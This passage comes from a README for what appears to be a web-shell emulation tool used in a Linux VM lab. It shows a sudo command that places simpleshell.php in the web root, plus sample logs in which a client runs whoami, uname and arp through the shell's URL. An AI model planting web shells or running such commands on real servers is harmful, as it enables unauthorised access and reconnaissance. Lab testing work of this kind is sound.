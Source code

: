         the default does not work. This flag always needs to be
        specified by the user as an absolute path, and will be
        different depending on the username and file system layout.

### Example Flags and Output

In these examples:

* The `src/webshell` directory is mounted as a shared folder in the VM.
* Both of these examples are executed in a Linux VM inside the `src/webshell/build` directory.

#### Example Flags and Output - Client Command Output

This section demonstrates sample output from the client's commands sent as requests to the server.

Startup output:
```
$ sudo -u root -i /bin/bash -c '/mnt/hgfs/webshell/build/linux/wrapper_php -shellSrc="/mnt/hgfs/webshell/build/linux/simpleshell.php" -runTime=0 -port="80"'
2022/05/31 11:13:28 Wrapper will run with these options: -shellSrc: /mnt/hgfs/webshell/build/linux/simpleshell.php, -shellDest: /var/www/html/simpleshell.php, -port: 80, -runTime: 0, -commandTimeDelay: 10, -loopTimeDelay: 20
2022/05/31 11:13:28 Copied webshell /mnt/hgfs/webshell/build/linux/simpleshell.php to /var/www/html/simpleshell.php.
2022/05/31 11:13:28 Server started.
2022/05/31 11:13:28 Server will run until stopped with Ctrl+C.
2022/05/31 11:13:28 Starting client.
```

Output for `whoami`:
```
2022/05/31 11:13:28 Connecting to extension: "whoami"
2022/05/31 11:13:28 url: http://localhost:80/simpleshell.php?whoami
2022/05/31 11:13:28 Response:
www-data

```

Output for `uname`:
```
2022/05/31 11:13:38 Connecting to extension: "uname"
2022/05/31 11:13:38 url: http://localhost:80/simpleshell.php?uname
2022/05/31 11:13:38 Response:
Linux devhost 5.15.0-33-generic #34-Ubuntu SMP Wed May 18 13:34:26 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux

```

Output for `arp`:
```
2022/05/31 11:13:48 Connecting to extension: "arp"
2022/05/31 11:13:48 url: http://localhost:80/simpleshell.php?arp
2022/05/31 11:13:48 Response:
_gateway (192.168.23.2) at 00:50:56:ea:7a:2b [ether] on ens33
```
